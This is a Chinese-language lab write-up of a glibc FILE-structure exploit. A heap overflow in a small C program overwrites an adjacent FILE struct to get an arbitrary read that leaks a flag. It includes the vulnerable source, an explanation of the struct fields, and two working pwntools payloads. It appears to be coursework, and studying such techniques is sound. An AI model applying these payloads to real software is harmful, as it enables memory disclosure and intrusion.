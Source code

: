# lab_aar

1. 因為 FILE 在宣告後，會在 heap 建立一個空間，從原始碼中可以看到 FILE 宣告完後，就buf 就 malloc 0x10 的空間，然後給我們 read 0  輸入 0x1000 個 byte 進去 buf ，這邊就有很明顯的 bufferflow 可已利用在 heap 上面。

```cpp

char flag[0x10] = "FLAG{TEST}\n";
int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```

1. 從圖中可以看到，0x290~0x2a0 是 buf 的 chunk ，0x2b0 之後是 FILE 的 chunk，研究了一下這邊的結構就是 FILE 的結構，我只要把 buf 裡面的值 overflow 到 FILE 的 chunk 後，就可以依序去改寫 FILE 的結構。

![截圖 2022-12-12 下午9.48.16.png](lab_aar%20217235e464af43fdab6a69c1f3ab1dca/%25E6%2588%25AA%25E5%259C%2596_2022-12-12_%25E4%25B8%258B%25E5%258D%25889.48.16.png)

```cpp
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain; /* Next */

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
```

3.至於要怎麼改寫 FILE 裡面的結構，研究了老師上課的講義的過程後，直接先用 example.c 的結論去設定我 FILE 的結構，而這邊在 fileno 之後，原本的資料也有設定進去，但不確定是哪裡有問題一直導致 segment falut，所以後來 payload 只有留至 fileno 之前，就成功了。

```cpp
void aar(FILE *fp, void *addr, int size)
{
    char buf[0x10] = "1234";
    fp->_flags = 0xfbad0800;
    fp->_IO_read_end = fp->_IO_write_base = addr;
    fp->_IO_write_ptr = (char *)addr + size;
    fp->_IO_write_end = 0;
    fp->_fileno = 1;
    fwrite(buf, 0x10, 1, fp);
}
```

```cpp
payload1 = flat(
    0x0, 0x0,
    0x0, 0x1e1,
    0xfbad0800, 0x0,
    0x404050, 0x0,
    0x404050, 0x404060,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x0,
    0x0, 0x7ffff7fbc5c0,
    0x1,
)
```

4.然後研究example.c 為什麼可以那樣設置，以下是我的理解過程

a. flags 是定義這個 FILE 結構的使用狀態權限跟屬性。

因為 aaw 是要把從 stdin 讀取的資料寫到特定位址，要控制的是 fread 的流程。

所以 flags 設置成

flags  & ~NO_READS 代表可讀
flags & ~EOF_SEEN 代表避免被視為 EOF

=>  flags &= ~(NO_READ | EOF_SEEN) : flags 設置為可讀，且避免被視為 EOF

flags |= MAGIC 魔數，通常用來判斷檔案有沒有被篡改

所以這裡得 FLAG 設置為以下，會得到 0xfbad0000

flags &= ~(NO_READ | EOF_SEEN)

flags |= MAGIC

![Untitled](lab_aar%20217235e464af43fdab6a69c1f3ab1dca/Untitled.png)

b. fileno = 1 ( 輸出到 stdout )

c. write_base 指向目標位址 ⇒ write_base = target_address

    write_ptr 設為 write_base + 資料大小 ⇒ write_ptr = write_base + size

    要避免執行 sys_seek，設置 read_end == write_base

    ⇒ write_end = 0 (滿足 write_end <= write_ptr)

   read_end = write_base = target_address

   write_ptr = target_address + target_size

5. 而我在研究 FILE struct 的過程中，發現 pwntools 中有 file pointer，可以用來做****FILE* structure exploitation，****所以我這邊也嘗試使用這個pwntools 提供的函式庫去寫 payload，背後的原理是一樣的，然後就也可以成功得到 FLAG。

[https://docs.pwntools.com/en/stable/filepointer.html](https://docs.pwntools.com/en/stable/filepointer.html)

```cpp
addr = 0x404050
size = 0x10
fileStr = FileStructure(0xdeadbeef)
fileStr.flags = 0xfbad0800
fileStr._IO_read_end = addr
fileStr._IO_write_base = addr
fileStr._IO_write_ptr = addr+size
fileStr._IO_write_end = 0
fileStr.chain = 0x7ffff7fbc5c0
fileStr.fileno = 1
payload2 = (flat(0x0,0x0,0x0,0x1e1,) + bytes(fileStr))[0:19*0x8]
```